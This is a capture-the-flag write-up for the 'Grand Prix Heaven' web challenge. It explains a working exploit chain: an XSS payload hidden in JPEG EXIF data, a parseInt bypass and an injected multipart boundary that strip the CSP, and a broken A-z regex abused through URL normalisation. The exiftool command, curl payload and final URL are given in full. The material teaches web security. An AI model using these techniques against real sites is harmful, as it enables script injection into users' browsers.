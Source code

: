 # Grand Prix Heaven Solution 

## TL;DR

1. Create jpb image with payload in EXIF metadata 

2. Create a new car with payload that bypasses csp injection + parseInt() and isNum(), use static boundary to inject additional chunks

3. flag

Challenge is 2 servers: heaven and template. Heaven is the main part of the challenge that players interact with. Template is a "template engine" of sorts, which generates HTML content out of bits of template pieces. 

The goal is to make the template server forget to render the CSP meta-tag, and include the `mediaparser` HTML chunk, which is normally not included anywhere. This media parser is used to extract EXIF metadata from uploaded .jpg files. It retrieves that content and sets it in the page using `innerHTML`, allowing DOM XSS. 

Therefore creating an image with payload in EXIF gives you XSS:
```
exiftool -Exif:ImageDescription="<img src=x onerror=alert(1)>" test.jpg 
```

In order to actually have the mediaparser retrieve your image, it needs to be rendered into the HTML. The parser is "deprecated" and therefore you woulnd't normally be able to include it. But this check: 

```js
    try {
      needleBody = JSON.parse(grandPrix.custom);
      for (const [k, v] of Object.entries(needleBody)) {
        if (!TEMPLATE_PIECES.includes(v.toLowerCase()) || !isNum(parseInt(k)) || typeof(v) == 'object')
          throw new Error("invalid template piece");
        // don't be sneaky. We need a CSP!
        if (parseInt(k) == 0 && v != "csp") throw new Error("No CSP");
      }
    } catch (e) {
      console.log(`ERROR IN /fave/:GrandPrixHeaven:\n${e}`);
      return res.status(400).json({ error: "invalid custom body" });
    }
```

Has several flaws.

1. `parseInt(k)` will parse something like `0honk` as `0`. It ignores any characters if it can parse a valid number out of the first chars it sees. 

2. The later if check can be bypassed either by point 1 above or just not including a `k==0` in the first place. 

The template server is primitive in that it seperates metadata chunks based on the boundary (which is static and known), and therefore you can inject more HTML values in your payload to the template server by just injecting `--GP_HEAVEN` (the boundary) between them. 

```js
const parseMultipartData  = (data, boundary) => {
  var chunks = data.split(boundary);
  // always start with the <head> element
  var processedTemplate = templates.head_start;
  // to prevent loading an html page of arbitrarily large size, limit to just 7 at a time
  let end = 7;
  if (chunks.length-1 <= end) {
    end = chunks.length-1;
  }
  for (var i = 1; i < end; i++) {
    // seperate body from the header parts
    var lines = chunks[i].split('\r\n\r\n')
    .map((item) => item.replaceAll("\r\n", ""))
    .filter((item) => { return item != ''})
    for (const item of Object.keys(templates)) {
        if (lines.includes(item)) {
            processedTemplate += templates[item];
        }
    }
  }
  return processedTemplate;
}
```
This functionality will trigger when you have a `custom` property to your car configuration, which is what is used to to send a POST request to the template server in the first place. Take note of both the IDs that come up, `img_id` and `config_id`.

```
PAYLOAD=$'{"0\\"--GP_HEAVENretrieve--GP_HEAVENmediaparser--GP_HEAVENhead_end--GP_HEAVENfaves--GP_HEAVENfooter\\r\\n\\r\\nthing": "csp"}' && \
curl -X POST -F "year=1337" -F "make=foo" -F "model=bar" -F "custom=$PAYLOAD" -F "image=@test.jpg"  https://grandprixheaven-web.2024.ctfcompetition.com/api/new-car
```

All that's left is to bypass the regex check in `retrieve.js`.

The mediaparser uses the `Requester` class defined in `retrieve.js` in order to retrieve media. However, the `Requester` class always prepends `https://grandprixheaven-web.2024.ctfcompetition.com/api/get-car/` to it (`this.url = new URL(url, 'https://grandprixheaven-web.2024.ctfcompetition.com/api/get-car/');`), so giving it your `img_id` will cause it to fail. The regex check, however, is actually broken: 

```js
let re = new RegExp(/^[A-z0-9\s_-]+$/i);
if (re.test(path)) {
    // normalize
    let cleaned = path.replaceAll(/\s/g, "");
    return cleaned;
} else {
    throw new Error("regex fail");
}
```
`/^[A-z0-9\s_-]+$/i` - the issue is the fact that the regex uses `A-z` and not `A-Za-z`. This actually allows for characters in between the unicode character `Z` and the unicode character `a` ([more info](https://wtfjs.com/wtfs/2014-01-29-regular-expression-and-slash)): `[`, `\`, `]`, `^`, `_`, and "`". 

Further along, the URL constructor which creates the URL for mediaparser will normalize the URL - so things like backslashes become forwardslashes, for example. Use this to bypass the regex check and make the `Requester` class reach a `/media/` endpoint.

Visit `https://grandprixheaven-web.2024.ctfcompetition.com/fave/$config_id?F1=\\media\\$img_id`. This should pop your XSS if you included the mediaparser and bypassed the `[A-z]` regex check. 